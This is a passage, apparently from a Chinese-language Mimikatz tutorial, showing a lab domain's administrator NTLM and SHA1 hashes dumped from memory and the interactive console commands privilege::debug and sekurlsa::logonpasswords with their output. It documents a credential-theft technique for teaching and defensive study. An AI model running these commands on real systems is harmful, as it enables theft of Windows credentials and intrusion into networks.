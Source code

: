 ```
 Domain            : ADSECLAB
 Logon Server      : ADSDC03
 Logon Time        : 11/27/2015 11:41:27 AM
 SID               : S-1-5-21-1581655573-3923512380-696647894-500
 msv :
 [00000003] Primary
 * Username : ADSAdministrator
 * Domain   : ADSECLAB
 * NTLM     : 5164b7a0fda365d56739954bbbc23835
 * SHA1     : f8db297cb2ae403f8915675cebe79643d0d3b09f
 [00010000] CredentialKeys
 * NTLM     : 5164b7a0fda365d56739954bbbc23835
 * SHA1     : f8db297cb2ae403f8915675cebe79643d0d3b09f
 tspkg :
 wdigest :
 * Username : ADSAdministrator
 * Domain   : ADSECLAB
 * Password : (null)
 kerberos :
 * Username : adsadministrator
 * Domain   : LAB.ADSECURITY.ORG
 * Password : (null)
 ssp :   KO

```

交互模式提供了一个命令可以输入并实时执行的 “Mimikatz 控制台”：

```
PS C:\temp\mimikatz> .\mimikatz

.#####.   mimikatz 2.0 alpha (x64) release "Kiwi en C" (Nov 13 2015 00:44:32)
 .## ^ ##.
 ## / \ ##  /* * *
 ## \ / ##   Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 '## v ##'   http://blog.gentilkiwi.com/mimikatz             (oe.eo)
 '#####'                                     with 17 modules * * */

mimikatz # privilege::debug
 Privilege '20' OK

mimikatz # sekurlsa::logonpasswords

Authentication Id : 0 ; 646260 (00000000:0009dc74)
 Session           : RemoteInteractive from 2
 User Name         : adsadministrator
 Domain            : ADSECLAB
 Logon Server      : ADSDC03
 Logon Time        : 11/27/2015 11:41:27 AM
 SID               : S-1-5-21-1581655573-3923512380-696647894-500
 msv :
 [00000003] Primary
 * Username : ADSAdministrator
 * Domain   : ADSECLAB
 * NTLM     : 5164b7a0fda365d56739954bbbc23835
 * SHA1     : f8db297cb2ae403f8915675cebe79643d0d3b09f
 [00010000] CredentialKeys
 * NTLM     : 5164b7a0fda365d56739954bbbc23835
 * SHA1     : f8db297cb2ae403f8915675cebe79643d0d3b09f
 tspkg :
 wdigest :
 * Username : ADSAdministrator
 * Domain   : ADSECLAB
 * Password : (null)
```